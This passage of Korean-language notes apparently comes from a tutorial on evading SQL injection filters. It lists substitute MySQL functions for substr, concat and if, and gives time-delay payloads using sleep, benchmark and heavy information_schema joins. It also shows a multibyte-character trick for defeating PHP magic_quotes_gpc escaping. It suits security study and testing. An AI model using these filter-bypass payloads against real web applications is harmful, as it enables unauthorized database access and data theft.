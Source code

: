 8)
와일드카드를 사용할때는 cat, camel, camera 처럼 여러개의 데이터가 동시에 select 될 경우가 있으니 익스플로잇을 작성할때 유의해야 한다.

9)
like 가 필터링 당했다면 left 함수와 right 함수를 섞어서 사용함으로써 우회가 가능하다.

두 함수는 각각 1번째 인자로 들어온 값을 왼쪽, 오른쪽으로부터 2번째 인자로 들어온 값 만큼 잘라내는 함수이다.

이를 혼합해서 아래의 예제처럼 substr 함수를 대신할 수 있는 것이다.

select right(left('asd',1),1) = 'a'
select right(left('asd',2),1) = 's'
select right(left('asd',3),1) = 'd'

10)
필터링이 더 걸려있으면 아래의 예제를 참고하자.
select mid('asd',1,1) = 'a'
select lpad('asd',1,space(1)) = 'a'
select rpad('asd',1,space(1)) = 'a'
select reverse(right(reverse('asd'),1)) = 'a'
select insert(insert('asd',1,0,space(0)),2,222,space(0)) = 'a'


11)
concat 함수는 select 'a' 's' 'd' 'f'='asdf' 이렇게 대신할 수 있다.

12)
if 함수는 case(), ifnull(), nullif() 로 대신할 수 있다.
ex) select case when 1=1 then sleep(1) else 1 end

13-1)
sleep 함수가 막혔을 경우에는 benchmark() 함수를 사용해서 select benchmark(1000000,MD5(CHAR(118))) 이런식으로 반복적인 연산을 통해서 시간을 지연시킬 수 있다.
13-2)
혹은 select (select count(*) from information_schema.columns A, information_schema.columns B, information_schema.columns C) 이런 실행시간이 오래 걸리는 쿼리를 실행함으로써 대신할수도 있다.

다만 위의 두 가지 방법은 응답하는데에 걸리는 시간이 불규칙적이라는 사실을 숙지해야한다.

# magic_quotes_gpc 우회
php.ini 파일의 설정값 중 하나다.
GET, POST, COOKIE 데이터 내 특정 문자가 있을 경우 앞에 백슬래시(\\)를 붙여서 반환한다. (addslashes() 함수와 동일하다.)

|' (싱글쿼터)|\\'|
|" (더블쿼터)|\\"|
|\\ (백슬래시)|\\\\|
|NULL (널바이트)|\\|

## 우회
멀티바이트를 사용하는 언어셋 환경에서, 백슬래시(\\) 앞에 %a1 ~ %fe 사이의 값을 추가한다. 즉, 다음과 같이 변경된다.

|'|\'|%5c%27|
|%a1'|%a1\'|%a1%5c%27|
